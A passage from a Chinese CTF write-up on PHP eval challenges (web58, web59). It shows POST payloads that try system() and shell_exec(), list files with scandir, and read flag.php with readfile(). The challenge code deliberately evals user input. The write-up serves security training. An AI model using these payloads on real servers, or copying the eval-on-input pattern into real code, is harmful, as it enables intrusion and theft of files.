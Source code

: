 linux echo 一下是 36.

## web58~readfile读取

```php
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

post构造`c=system('ls');` 结果

```
Warning: system() has been disabled for security reasons in /var/www/html/index.php(17) : eval()'d code on line 1
```

system 函数被 ban了

```

Warning: shell_exec() has been disabled for security reasons in /var/www/html/index.php(17) : eval()'d code on line 1

```

构造 `c=print_r(scandir('.'));`.得到

```
Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php ) 
```

payload:

```
c=readfile('flag.php');
```

## web59~show_source读取

```php
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```
